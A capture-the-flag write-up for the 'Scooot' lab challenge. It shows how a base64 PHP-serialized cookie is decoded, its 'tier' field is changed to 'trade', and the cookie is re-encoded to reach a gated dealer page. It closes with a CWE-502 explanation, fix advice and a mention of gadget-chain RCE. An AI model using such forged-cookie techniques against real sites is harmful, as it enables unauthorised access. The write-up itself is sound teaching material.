




# Scooot — PHP Object Deserialization / Insecure Cookie

Challenge link: https://dashboard.webverselabs-pro.com/events/scooot


## Overview

scooot is a brand-new performance e-scooter shop run by a small crew of engineers. To keep the storefront quick, it saves your visit so you can leave and pick your build back up later without making an account. It is fast, it is new, and it has not had many eyes on it yet.


## Enumeration

Clicking **Save this build** on a scooter build, triggers a `POST /model.php` with `model_id=xxx&qty=1` in the body. The response sets a `scoot_resume` cookie and redirects to `/cart.php`.



By pulling the cookie out of the browser or a captured request, we can decode it from base64 which reveals the raw PHP serialized data:

```bash
└─$ echo 'TzoxNDoiU2hvcHBlclNlc3Npb24iOjM6e3M6MTI6ImRpc3BsYXlfbmFtZSI7czo1OiJHdWVzdCI7czo0OiJjYXJ0IjthOjA6e31zOjQ6InRpZXIiO3M6NjoicmV0YWlsIjt9' | base64 -d

O:14:"ShopperSession":3:{s:12:"display_name";s:5:"Guest";s:4:"cart";a:0:{}s:4:"tier";s:6:"retail";}  
```


### Serialized Object Breakdown

| Token | Type | Value |
|---|---|---|
| `O:14:"ShopperSession"` | Object | Class name, 14 chars |
| `:3:` | — | 3 properties follow |
| `s:12:"display_name"` | String key | 12 chars |
| `s:5:"Guest"` | String value | 5 chars |
| `a:0:{}` | Array | Empty cart |
| `s:4:"tier"` | String key | 4 chars |
| `s:6:"retail"` | String value | **6** chars |

The `s:N:` prefix is a **byte-length declaration** which PHP enforces at deserialization time. If the number doesn't match the actual string length, `unserialize()` returns `false` and the cookie is silently rejected.

Poking around the site reveals a `/trade.php` page that appears to require a `trade` tier to access.




## Exploitation

Modify the `tier` value from `retail` to `trade`, updating the length prefix from `s:6:` to `s:5:` to match:

```
O:14:"ShopperSession":3:{s:12:"display_name";s:5:"Guest";s:4:"cart";a:0:{}s:4:"tier";s:5:"trade";}
```

Re-encode to base64:

```bash
└─$ echo -n 'O:14:"ShopperSession":3:{s:12:"display_name";s:5:"Guest";s:4:"cart";a:0:{}s:4:"tier";s:5:"trade";}' | base64 -w 0

TzoxNDoiU2hvcHBlclNlc3Npb24iOjM6e3M6MTI6ImRpc3BsYXlfbmFtZSI7czo1OiJHdWVzdCI7czo0OiJjYXJ0IjthOjA6e31zOjQ6InRpZXIiO3M6NToidHJhZGUiO30=
```

Replace the `scoot_resume` cookie value in the browser (or via Burp) and refresh `/trade.php`.




## Result

Accessing `/trade.php` with the forged cookie grants access to the Dealer Portal and allows you to obtain the flag:




## Vulnerability Breakdown

**Insecure Deserialization (CWE-502):** client-supplied serialized PHP objects with no HMAC or signature verification. The server blindly deserializes whatever value the client sends, making any session property (tier, display name, cart contents) fully attacker-controlled.

The correct fix is to never serialize session objects into client-facing cookies. Session state belongs server-side, with only a random opaque session ID sent to the client. If client-side storage is required, the payload must be signed with a secret key (e.g. HMAC-SHA256) and verified before deserialization.

**Note:** This class of vulnerability can also lead to Remote Code Execution if the application has PHP classes with magic methods (`__wakeup`, `__destruct`, `__toString`). A crafted gadget chain in the serialized payload can trigger arbitrary code execution on deserialization.